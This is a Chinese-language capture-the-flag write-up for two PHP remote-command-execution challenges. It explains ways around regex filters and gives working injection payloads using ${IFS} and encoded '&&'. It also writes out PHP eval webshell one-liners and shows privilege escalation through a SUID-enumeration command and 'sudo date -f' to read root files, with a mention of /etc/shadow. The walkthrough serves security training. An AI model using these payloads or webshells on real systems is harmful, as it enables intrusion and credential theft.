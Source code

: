 [buuctf] web区 write up 7
===

## [NewStarCTF 公开赛赛道]So Baby RCE

### 代码审计

典中典之开门审计代码:

```php
 <?php
error_reporting(0);
if(isset($_GET["cmd"])){
    if(preg_match('/et|echo|cat|tac|base|sh|more|less|tail|vi|head|nl|env|fl|\||;|\^|\'|\]|"|<|>|`|\/| |\\\\|\*/i',$_GET["cmd"])){
       echo "Don't Hack Me";
    }else{
        system($_GET["cmd"]);
    }
}else{
    show_source(__FILE__);
}
```

非常一目了然的 RCE, 需要对 `preg_match()` 作 bypass:

### `preg_match()` 函数常见绕过

1. PCRE 回溯上限:

    针对非惰性匹配 (无 `?` 的贪婪模式匹配), 只要构造的模式字符串足够长, 调用链足够深, 就会触发**调用上限**, 函数**抛回 False 值**, 从而实现绕过; 其原理是 php 正则匹配函数是基于 PCRE 实现的, 最直白的来说, 匹配的实质是一个**有限状态自动机**,回溯次数具有**上限**, 不能无限调用;

2. `%0A` 绕过:

    常用于包含 `.` 且不含 `/m` 选项的 `preg_match()`, 默认情况下这种匹配是只限于第一行的, 通过 `%0A` (换行符) 即可实现绕过;

3. 数组绕过:

    传一个数组进去, `preg_match()` 无法处理字符串, 会返回 `False`; 不过没有 `toString()` 直接用 `system()` 执行会报错 (Array);

### 调整 payload

输入 ls 有正常回显, 接下俩考虑怎么绕过就行了:

![31-1.png](31-1.png)

注意正则中没有过滤控制符, `{}` `$` `&`等字符, 考虑用管道符: 

> 注意 `&&` 需要 url 编码; 该控制符的含义为**严格逻辑与**, 需要前后都为真, 按从左到右顺序执行, 如果左边语句为假, 则直接退出;

```bash
cd${IFS}..%26%26ls
```

![31-2.png](31-2.png)

成功, 接下来慢慢遍历找就行了:

```bash
cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26ls
```

![31-3.png](31-3.png)

```bash
cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26cd${IFS}..%26%26ca${Z}t${IFS}ffff${Z}llllaaaaggggg
```

爆出flag: `flag{239fe0bd-010e-450e-afcc-c603d3ecace7} `

![31-4.png](31-4.png)

## [NewStarCTF 公开赛赛道]So Baby RCE Again

### 代码审计

同样是代码审计开门:

```php
<?php
error_reporting(0);
if(isset($_GET["cmd"])){
    if(preg_match('/bash|curl/i',$_GET["cmd"])){
        echo "Hacker!";
    }else{
        shell_exec($_GET["cmd"]);
    }
}else{
    show_source(__FILE__);
}
```

和上一题最大的区别是没用 `system()` 而是 `shell_exec()`, 其区别在于 `system()` 会打印输出到网页上 (可见), 后者不会。

这一题禁用了 `bash`, `curl` 应该主要是为防反弹 shell 直接把 shell 给弹回去;

那么马上想到可以用 webshell 的方式创建一个木马:

### webshell

创建 webshell 的指令, 有两个示例:

```bash
php -r "file_put_contents('shell.php', '<?php @eval(\$_POST[\"shell\"]);?>');"

# 或者用这个简单版也行;
echo '<?php @eval($_POST[1])?>' > webshell.php

```
> 注意:
> **引号冲突问题**, 一定要用双引号包裹单引号, 因为这里的命令是要放在 shell 里执行, 而 shell 中 `\' => '` 这样的表示方式是不存在的;


蚁剑连接:

![32-1.png](32-1.png)

![32-2.png](32-2.png)

找到 flag 之后读不出来, 应该是需要提权

### 提权

#### 枚举

用 find 找找 set UID = root 的文件:

```bash
find / -perm -u=s -type f 2>/dev/null
```

![32-3.png](32-3.png)

注意到 date 指令是可用的;

#### date 指令

```bash
# 输出当前时间
date

# 格式化输出
date +"%Y-%m-%d %H:%M:%S"

# 需 sudo, 设置系统时间
sudo date -s "2000-01-01 12:00:00"

# 读取文件日期, 这个指令实际上是把目标文件按照
# %Y-%m-%d %H:%M:%S
# 的格式进行读取
date -f filename
```

显然 `sudo date -f /ffll444aaggg` 即可。拿到 `flag{e7a2946a-2d0a-4f5f-bfa6-3cce34647a61}`

![32-4.png](32-4.png)

读其他文件也是能做到的, 比如 `/etc/shadow`;
